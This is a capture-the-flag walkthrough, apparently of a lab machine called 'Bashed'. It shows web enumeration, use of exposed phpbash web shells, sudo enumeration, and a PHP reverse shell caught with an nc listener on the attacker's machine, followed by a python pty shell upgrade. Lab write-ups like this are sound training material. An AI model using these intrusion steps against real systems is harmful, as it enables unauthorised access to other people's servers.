

Apache/2.4.18 (Ubuntu) Server at 10.10.10.68 Port 80

http://10.10.10.68/ - landing page for phpbash
http://10.10.10.68/php/ - contains a sendMail.php file
http://10.10.10.68/single.html - a post discussing phpbash at  [https://github.com/Arrexel/phpbash](https://github.com/Arrexel/phpbash)
http://10.10.10.68/uploads/ - will likely contain uploaded files
http://10.10.10.68/dev/ - contains phpbash pages with interactive shells
- phpbash.min.php
- phpbash.php

Both provide an interactive shell on the system:
```
www-data@bashed:/var/www/html/dev# whoami
www-data  
www-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed:/home# cat arrexel/user.txt
6b<SNIP>0b1ea
```

```
www-data@bashed:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:  
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User www-data may run the following commands on bashed:  
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

## investigating scriptmanager
```
www-data@bashed

:/home/scriptmanager# find / -group scriptmanager

  
/scripts  
find: '/scripts/test.py': Permission denied  
find: '/scripts/test.txt': Permission denied  
find: '/root': Permission denied  
/home/scriptmanager  
/home/scriptmanager/.profile  
/home/scriptmanager/.bashrc
```

Commands can be ran as scriptmanager
```
www-data@bashed:/dev/shm# sudo -u scriptmanager id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)

www-data@bashed:/dev/shm# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")  
f.write("testing 123!")  
f.close

```

## Getting a reverse shell

Visting http://10.10.10.68/uploads/php-reverse-shell.php pops a shell :)

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.68] 55488
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:09:06 up  1:04,  0 users,  load average: 2.13, 2.05, 2.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (835): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/$ 
```

## Upgrading the shell
For arrow keys, tab expansion, etc.
```
www-data@bashed:/$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:/$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty size;stty raw -echo;fg                                                                                  
39 157
[1]  + continued  nc -lvnp 1337
                               export TERM=xterm256-color
www-data@bashed:/$ whoami
www-data
www-data@bashed:/$ ls
ls           lsblk        lsinitramfs  lslogins     lspci        
lsattr       lscpu        lsipc        lsmod        lspgpot      
lsb_release  lshw         lslocks      lsof         lsusb        
www-data@bashed:/$ ls

```